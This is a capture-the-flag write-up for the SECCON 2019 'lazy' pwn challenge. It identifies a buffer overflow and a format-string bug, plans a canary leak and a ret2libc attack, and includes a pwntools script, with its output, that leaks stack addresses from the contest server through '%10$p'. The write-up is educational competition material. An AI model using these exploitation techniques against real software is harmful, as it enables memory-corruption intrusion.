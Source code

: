 Here are two exploitable vulnerabilities:
1. Buffer overflow in the `s` buffer
2. Format String vulnerability when printing the file name

## Exploitation plan
We saw previously the binary has no **PIE**, but has **FULL RELRO** so it's impossible to overwrite the **GOT**. We can still use to get libc leaks, tho.

This limits our exploitation options. We can use the buffer overflow to control the RIP by overwriting the saved RIP on the stack, but we have to bypass the `stack canary`. Luckily, we can leak it with our format string. But where would we return to? The perfect solution would be a ret2libc attack, but we don't know the libc that is uesd and we can't just download it since the program checks for `.` in the filename before calling the `download` function.

This `download` is pretty straightforward and only does a couple of security checks:

```c
if ( strlen(file_name) > 27 ){
    puts("Too long!");
    exit(-1);
}
if ( strstr(file_name, "..") ){
    puts("No directory traversal!");
    exit(-1);
}
...
file_len = strlen(file_name);
strncat(&dest, file_name, file_len - 1);
fd = open(&dest, 0);
puts(&dest);
```
Then it just sends us the file contents.

## Getting the Libc
With a few tests, I ftigured out that our input is at offset 6 from the `printf(s)`, so we could access our input directly via format the string by using the positional argument `"%6$s"`.
We can also offset the saved EBP in the stack and leak it by using the `"%10$p"` format. With this, we can calculate the address of our input on the stack.

```python
s = remote(HOST, PORT)

s.sendline("2")
s.sendline("_H4CK3R_")
s.sendline("3XPL01717")
s.sendline("4")

leak_to_input_offset = 0x60
leak_fmt = "%10$p"

s.sendline(leak_fmt)
s.recvuntil("Filename : ")
leak = int(s.recvline().strip(), 16)
input_addr = leak - leak_to_input_offset

log.info("leak = {}".format(hex(leak)))
log.info("input @ {}".format(hex(input_addr)))

------------------------------------------
╭─vagrant@ubuntu-bionic ~/share/seccon19/pwn/lazy
╰─$ python exploit_leaks.py remote
[+] Opening connection to lazy.chal.seccon.jp on port 33333: Done
[*] leak = 0x7ffe4ee73ce0
[*] input @ 0x7ffe4ee73c80
```